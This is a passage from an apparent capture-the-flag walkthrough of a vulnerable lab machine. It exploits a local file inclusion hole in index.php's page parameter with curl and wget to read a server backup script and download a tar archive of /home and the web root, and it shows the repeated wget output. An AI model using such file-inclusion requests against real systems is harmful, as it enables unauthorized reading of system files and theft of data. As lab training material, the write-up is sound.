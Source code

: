 ```bash
</body>
</html>          
```

Perfect, and look the backup-user doesn't have a shell, but a script. Lets look at that script:

```bash
➜  pluck curl "http://192.168.56.102/index.php?page=/usr/local/scripts/backup.sh"
<!-- SNIP -->
#!/bin/bash

########################
# Server Backup script #
########################

#Backup directories in /backups so we can get it via tftp

echo "Backing up data"
tar -cf /backups/backup.tar /home /var/www/html > /dev/null 2& > /dev/null
echo "Backup complete"
<!-- SNIP -->                                
```

Ah, nice it creates a tar-file in the backups directory from the home and web-pages. If we're lucky we can get that file too.

```bash
wget "http://192.168.56.102/index.php?page=/backups/backup.tar"           
--2017-03-12 18:35:38--  http://192.168.56.102/index.php?page=/backups/backup.tar
Connecting to 192.168.56.102:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘index.php?page=%2Fbackups%2Fbackup.tar’

index.php?page=%2Fbackups%2Fbackup.tar                  [                                                                                <=>                               ]   6.23G  32.4MB/s    in 79s     

2017-03-12 18:36:57 (80.5 MB/s) - Read error at byte 6685945954 (Success).Retrying.

--2017-03-12 18:36:58--  (try: 2)  http://192.168.56.102/index.php?page=/backups/backup.tar
Connecting to 192.168.56.102:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘index.php?page=%2Fbackups%2Fbackup.tar’

index.php?page=%2Fbackups%2Fbackup.tar                  [                                                         <=>                                                      ]   6.23G   493MB/s    in 12s     

2017-03-12 18:37:10 (525 MB/s) - Read error at byte 6685945954 (Success).Retrying.

--2017-03-12 18:37:12--  (try: 3)  http://192.168.56.102/index.php?page=/backups/backup.tar
Connecting to 192.168.56.102:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘index.php?page=%2Fbackups%2Fbackup.tar’

index.php?page=%2Fbackups%2Fbackup.tar                  [                                                     <=>                                                          ]   6.23G   536MB/s    in 11s     

2017-03-12 18:37:23 (587 MB/s) - Read error at byte 6685945954 (Success).Retrying.

--2017-03-12 18:37:26--  (try: 4)  http://192.168.56.102/index.php?page=/backups/backup.tar
```